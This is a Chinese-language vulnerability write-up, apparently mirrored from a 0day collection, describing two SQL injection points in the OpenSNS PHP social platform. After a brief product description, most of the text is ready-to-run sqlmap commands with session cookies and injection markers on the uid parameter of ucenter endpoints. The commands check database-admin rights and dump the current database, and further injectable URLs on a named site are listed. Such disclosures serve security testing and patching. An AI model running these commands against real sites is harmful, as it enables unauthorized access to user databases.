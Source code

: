# OpenSNS sql 注入

> 原文：[http://book.iwonder.run/0day/OpenSNS/1.html](http://book.iwonder.run/0day/OpenSNS/1.html)

## 一、漏洞简介

OpenSNS 是基于 OneThink 的轻量级社交化用户中心框架，系统秉持简约的设计风格，注重交流，为用户提供了一套轻量级的社交方案。OpenSNS 前身是“ThinkOX”，2015 年 1 月 28 号正式更名为 OpenSNS。 OpenSNS 采用 PHP+MYSQL 构建的一款有“身份”的开源免费 SNS 社交系统，适用于多种社会关系。 OpenSNS 采用 thinkphp 框架编写。系统的设计遵循高内聚低耦合，允许管理员自由开启关闭功能模块。不仅如此，OpenSNS 还内置了一个功能扩展商店，可以一键在线安装新的功能扩展。 OpenSNS 目前有大量的国内开发者，云市场也上架了大量的第三方功能模块和主题应用，使 OpenSNS 可以同时满足各行各业的社交需求。

## 二、漏洞影响

## 三、复现过程

### SQL 注入(一)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --current-db 
```

#### 同类 h 注入点

[http://0-sec.org/index.php?s=/ucenter/index/index&uid=10](http://0-sec.org/index.php?s=/ucenter/index/index&uid=10) [http://0-sec.org/index.php?s=/ucenter/index/information&uid=10](http://0-sec.org/index.php?s=/ucenter/index/information&uid=10)

### SQL 注入(二)

需要注册一个账号并登录

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --is-dba 
```

```
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --current-db 
```

